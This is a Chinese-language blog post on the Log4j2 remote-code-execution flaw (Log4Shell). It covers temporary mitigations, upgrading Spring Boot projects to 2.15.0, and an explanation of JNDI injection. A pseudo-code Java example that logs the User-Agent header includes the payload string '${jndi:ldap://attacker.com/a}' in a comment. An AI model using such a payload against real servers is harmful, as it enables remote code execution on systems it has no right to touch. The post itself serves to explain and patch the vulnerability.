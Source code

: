 长话短说吧。

相信大家已经被 Log4j2 的重大漏洞刷屏了，估计有不少小伙伴此时此刻已经累趴下了。很不幸，我的小老弟小二的 Spring Boot 项目中恰好用的就是 Log4j2，版本特喵的还是 2.14.1，在这次漏洞波及的版本范围之内。

第一时间从网上得知这个漏洞的消息后，小二吓尿了。赶紧跑过来问老王怎么解决。

老王先是给小二提供了一些临时性的建议，比如说：

```
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

并且老王也在时刻的关注着 Log4j2 的官网和 Spring Boot GitHub 仓库的最新消息。

Java 后端开发的小伙伴应该都知道，Log4j、SLF4J、Logback 这 3 个日志组件是一个爹——Ceki Gulcu，但 Log4j 2 却是例外，它是 Apache 基金会的产品。

所以这波超级高危漏洞的锅必须得由 Apache 来背。并且波及范围非常广，已知受影响的应用程序和组件有：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

并且只要是在 Log4j 2.x <= 2.14.1 之间的版本，都将受到影响——注定被载入史册的一波 bug 啊。

目前，Log4j2 的官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞。

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-01.png)

那随着 Log4j2 2.15.0 正式版的发布，Spring Boot 的 GitHub 仓库提的这些关于 Log4j2 的 issue 都已经处于关闭状态了。

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-02.png)

看到这些消息后，老王紧张的情绪一下子就缓解了下来，就像吃了一颗定心丸，赶紧去通知小二不用再提心吊胆了，直接一行代码搞定。

```
<properties>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
```

详情可参照 Spring Boot 官方这篇博客：

> https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot

Gradle 构建的项目也有解决方案。

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-03.png)

问题是解决了，不过老王没闲着。他从 Log4j2 官网公布的最新消息中琢磨出，本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

那肯定会有小伙伴在好奇 JNDI 是什么东东？来看一下维基百科的解释。

> Java 命名和目录接口（Java Naming and Directory Interface，缩写 JNDI），是 Java 的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过 JNDI 来执行 LDAP 协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler {
    static Logger log = Logger.getLogger(log4jExample.class.getName());
    /**
     * A simple HTTP endpoint that reads the request's User Agent and logs it back.
     *
     * This is basically pseudo-code to explain the vulnerability, and not a full example.
     *
     * @param he HTTP Request Object
     */
    public void handle(HttpExchange he) throws IOException {
        String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
        log.info("Request User Agent:" + userAgent);
        String response = "<h1>Hello There, " + userAgent + "!</h1>";
        he.sendResponseHeaders(200, response.length());
        OutputStream os = he.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
}
```

具体的攻击手段可以参考这里：

> https://github.com/apache/pulsar/issues/13232

下图是程序猿阿朗画的简单的攻击链路步骤图。

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-04.png)

感兴趣的小伙伴可以在本地复现一下，但**千万不要不当利用**哦！

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-05.png)

再次提醒大家一下，排查自己的项目是否引入了 Apache log4j-core Jar 包。

![](https://cdn.jsdelivr.net/gh/thinkingme/thinkingme.github.io@master/images/shigu/log4j2-06.png)

如果存在依赖引入，且在受影响版本范围内，请升级到 Apache Log4j2 2.15.0 版本，目前已经 release。
